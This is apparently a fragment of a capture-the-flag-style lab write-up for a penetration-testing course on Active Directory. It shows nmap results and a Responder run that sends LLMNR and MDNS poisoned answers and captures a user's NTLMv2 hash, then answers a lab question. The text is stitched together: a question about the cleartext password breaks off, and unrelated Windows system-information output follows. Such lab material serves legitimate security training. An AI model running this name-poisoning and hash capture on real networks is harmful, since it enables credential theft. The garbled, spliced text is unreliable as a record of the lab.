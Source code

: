 | 0s:

| 172.16.7.60

| 172.16.7.50

|_ 172.16.7.3 (inlanefreight.local)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 3 IP addresses (3 hosts up) scanned in 29.06 seconds

​

┌─[htb-student@skills-par01]─[~]

└──╼ $sudo responder -v -I ens224

__

.----.-----.-----.-----.-----.-----.--| |.-----.----.

| _| -__|__ --| _ | _ | | _ || -__| _|

|__| |_____|_____| __|_____|__|__|_____||_____|__|

|__|

​

NBT-NS, LLMNR & MDNS Responder 3.0.6.0

​

Author: Laurent Gaffie (laurent.gaffie@gmail.com)

To kill this script hit CTRL-C

<SNIP>

[*] [LLMNR] Poisoned answer sent to 172.16.7.3 for name INLANEFRIGHT

[*] [MDNS] Poisoned answer sent to 172.16.7.3 for name INLANEFRIGHT.LOCAL

[SMB] NTLMv2-SSP Client : 172.16.7.3

[SMB] NTLMv2-SSP Username : INLANEFREIGHT\AB920

[SMB] NTLMv2-SSP Hash : AB920::INLANEFREIGHT:<SNIP>

**Answer:** `**AB920**`

### 

2. What is this user's cleartext password?[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#2.-what-is-this-users-cleartext-password)

┌─[htb-student@skills-par01]─[~]


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0